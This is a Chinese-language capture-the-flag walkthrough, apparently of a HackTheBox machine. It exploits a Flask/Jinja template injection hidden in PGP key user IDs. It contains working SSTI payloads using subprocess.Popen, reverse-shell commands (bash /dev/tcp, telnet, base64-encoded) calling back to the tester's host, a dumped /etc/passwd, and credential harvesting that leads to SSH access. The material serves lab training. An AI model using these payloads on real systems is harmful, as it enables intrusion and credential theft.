首先扫描端口

`nmap -sT 10.10.11.218 -vv  -Pn`  



`nmap -sCV 10.10.11.218 -vv -p22,80 -Pn`



打开80页面，发现页面是由flask构建的，因此考虑SSTI。


路径扫描结果如下


在https://ssa.htb/guide下找到输入框。


查看PGP内容和用法

> <div class="image-with-text" style="display: flex;">      <span class="text" >解释一下pgp</span> </div>
>
> >PGP是"Pretty Good Privacy"（相当好的隐私）的缩写，它是一种用于加密和解密电子通信的加密协议和软件工具集。
> >
> >PGP的目标是提供一种安全的方式来保护电子通信的机密性和完整性。它使用一种称为"公钥加密"的加密技术，其中每个用户都拥有一对密钥：公钥和私钥。
> >
> >公钥可以公开共享给其他人，而私钥则是保密的。当某人想要向您发送加密消息时，他们可以使用您的公钥加密该消息。只有您持有与该公钥对应的私钥，才能解密和阅读消息。
> >
> >PGP还提供了数字签名的功能，用于验证消息的真实性和完整性。通过使用私钥对消息进行数字签名，您可以证明该消息确实是由您发送的，并且在传递过程中没有被篡改。
> >
> >PGP的应用范围广泛，可用于保护电子邮件、文件存储和即时通讯等通信形式。它提供了一种非常强大和可靠的加密解决方案，为用户提供了更高的隐私和安全性。
> >
> >尽管PGP是一种开放的标准，但在实际使用中，用户需要选择合适的软件工具来生成和管理密钥、加密和解密消息，以及验证数字签名。常用的PGP软件包括GnuPG（GNU隐私卫士）、PGP软件等。
> >
> >需要注意的是，尽管PGP提供了强大的加密和认证功能，但它仍然依赖于正确和安全地使用密钥对。私钥必须严格保密，并且需要采取措施来确保密钥的安全性，以免遭到未授权的访问。

所以pgp是一种非对称加密标准。在guide目录下有加密、解密、验证的功能。

查询pgp的用法

参考：

- [官方文档](https://www.gnupg.org/)
- [GPG入门教程](https://blog.zhanganzhi.com/zh-CN/2022/06/1c71f69657ed/)
- [How to Clearsign and Verify a Message using PGP/GPG](https://0x00sec.org/t/how-to-clearsign-and-verify-a-message-using-pgp-gpg/1370)

按照文档生成密钥对，并构造文本进行加密。在构造时会要求输入用户名、邮箱和注释。输出公钥和加密文本。





然后将公钥和加密消息输入guide下的验证框，得到结果。可以发现将我们之前输入的用户名、邮箱和注释输出了出来。那么这里可能存在SSTI模板注入。



Flask/Jinja模板验证，在注入点输入{{7+7}}。这次重新构造用户名、邮箱、注释。利用[gpg编辑key的uid](https://stackoverflow.com/questions/21863961/how-can-i-edit-my-private-secret-gnupg-key)。

```bash
#查看key的id
gpg --list-signatures
#进入编辑id的界面
gpg --edit-key [key-id]
#编辑id
adduid
uid n
primary
uid m
revuid
uid
deluid
save
```

这次将用户名换成{{7+7}}，发现回显14.证明这里有SSTI注入。



继续修改用户名，换成`{{"".__class__.__bases__[0].__subclasses__()}}`，这次输出了可以利用的python class，总共有1363个，这里没有完全列出来。其中第440个是subprocess.Popen，可以利用。



使用subprocess.Popen类进行反弹，

`{{"".__class__.__bases__[0].__subclasses__()[439]('bash -i >& /dev/tcp/10.10.16.27/2333 0>&1',shell=True,stdout=-1).communicate()[0].strip()}}`

结果报错"字符‘<’和‘>’不能出现在姓名中"



那就尝试不需要<>的反弹，使用telnet反弹，在本地打开两个监听端口 4444 和 5555。4444中执行命令，5555中回显。

`{{"".__class__.__bases__[0].__subclasses__()[439]('telnet 10.10.16.27 4444| /bin/bash | telnet 10.10.16.27 5555',shell=True,stdout=-1).communicate()[0].strip()}} `

但是尝试后发现没有反弹成功，估计是没有telnet环境。那就还是使用bash，这次用base64对命令行进行编码。

`{{"".__class__.__bases__[0].__subclasses__()[439]('echo "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMjcvMjMzMzMgMD4mMQ==" | base64 -d | bash',shell=True,stdout=-1).communicate()[0].strip()}}`反弹成功。



```bash
$ whoami
sh: 42: whoami: not found

$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
fwupd-refresh:x:113:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
silentobserver:x:1001:1001::/home/silentobserver:/bin/bash
atlas:x:1000:1000::/home/atlas:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false

```

看到其中还有一个用户silentobserver。

使用linpeas发现路径`/home/atlas/.config/`下存在源码，一路到`/home/atlas/.config/httpie/sessions/localhost_5000/admin.js`，在其中发现silentobserver的密码



ssh登录silentobserve得到user flag。


